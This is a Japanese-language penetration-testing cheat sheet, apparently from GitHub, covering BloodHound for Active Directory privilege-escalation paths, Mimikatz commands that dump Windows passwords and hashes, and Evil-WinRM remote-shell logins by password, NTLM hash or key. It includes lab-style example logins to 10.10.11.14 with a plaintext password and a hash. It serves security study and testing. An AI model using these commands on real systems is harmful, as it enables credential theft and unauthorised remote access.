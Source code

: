 # 目次
1. [BloodHound](#bloodhound)
2. [Mimikatz](#mimikatz)
3. [Evil-WinRM](#evil-winrm)

---

## BloodHound

BloodHound ([GitHubリンク](https://github.com/BloodHoundAD/BloodHound)) は、グラフ理論に基づきActive Directory環境の意図しない関係性を明らかにするためのツールです。これにより、低特権ユーザーをDomain Adminsに昇格させるためのパスを発見することができます。詳細については、[Qiita記事](https://qiita.com/v_avenger/items/56ef4ae521af6579c058)をご覧ください。

### 操作手順

1. **ターゲットAD上でSharpHound.exeを実行する**
   - SharpHoundは、Active Directoryの情報を収集し、関係性を解析するツールです。
   
2. **作成された日付入りのzipファイルをKali上に転送する**
   - ファイルを転送するには、`scp`や`ftp`などのツールを使用します。

3. **neo4jの起動**
   - BloodHoundはNeo4jデータベースを使用してグラフデータを管理します。
![image](https://github.com/user-attachments/assets/f9998f0a-ad2a-48f6-9c86-a376e79806f0)

4. **BloodHoundの起動**
   - Neo4jが起動したら、BloodHoundを実行し、収集したデータをアップロードします。
![image](https://github.com/user-attachments/assets/2460d64b-eb99-4260-955c-29d846cf9421)

---

## Mimikatz

Mimikatzは、Windowsシステムのパスワードやハッシュをダンプするためのツールです。

### 基本コマンド

- **パスワードとハッシュのダンプ**

  ```bash
  privilege::debug
  sekurlsa::logonpasswords
  ```

- **SAMとLSAのダンプ**

  ```bash
  lsadump::sam
  lsadump::lsa /patch
  ```

- **ワンライナーでの実行**

  ```bash
  .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
  ```

  ![Mimikatz Example](https://github.com/user-attachments/assets/80751d7c-e8fe-4d86-a690-98426942fdff)

---

## Evil-WinRM

WinRM（Windows Remote Management）は、MicrosoftのWS-Management Protocolの実装です。リモートシェルプログラムとしてEvil-WinRMを使用することで、WinRMサービスが有効なリモートWindowsサーバーに接続できます。

### WinRMサービスの発見

- **ポート5985（平文プロトコル）および5986（暗号化されたプロトコル）のスキャン**

  ```bash
  nmap -p5985,5986 <IP>
  ```

### ログイン方法

- **パスワードでログイン**

  ```bash
  evil-winrm -i <IP> -u user -p pass
  evil-winrm -i <IP> -u user -p pass -S
  ```

- **ハッシュでログイン**

  ```bash
  evil-winrm -i <IP> -u user -H ntlmhash
  ```

- **キーでログイン**

  ```bash
  evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
  ```

### ログの表示

- **ログ表示**

  ```bash
  evil-winrm -i <IP> -u user -p pass -l
  ```

### ファイルのアップロードとダウンロード

- **ファイルのアップロード**

  ```bash
  upload <file>
  ```

- **ファイルのダウンロード**

  ```bash
  download <file> <filepath-kali>
  ```

- **Kaliから直接ファイルを読み込む**

  ```bash
  evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell
  ```

### Evil-WinRMコマンド

- **コマンドメニューの表示**

  ```bash
  menu
  ```

- **バイナリの実行**

  ```bash
  evil-winrm -i <IP> -u user -p pass -e /opt/privsc
  Invoke-Binary /opt/privsc/winPEASx64.exe
  ```

  ![Evil-WinRM Example](https://github.com/user-attachments/assets/3f9ef784-7508-431b-9423-8619fc59e637)

- **パスワードログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
  ```
  ![Password Login](https://github.com/user-attachments/assets/7020f363-a6ca-46b9-9f53-37b00809c45a)

- **ハッシュ値によるログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u localadmin -H 9aa582783780d1546d62f2d102daefae
  ```
  ![Example](https://github.com/user-attachments/assets/764171ae-cf49-4710-95a5-508452d37fe3)
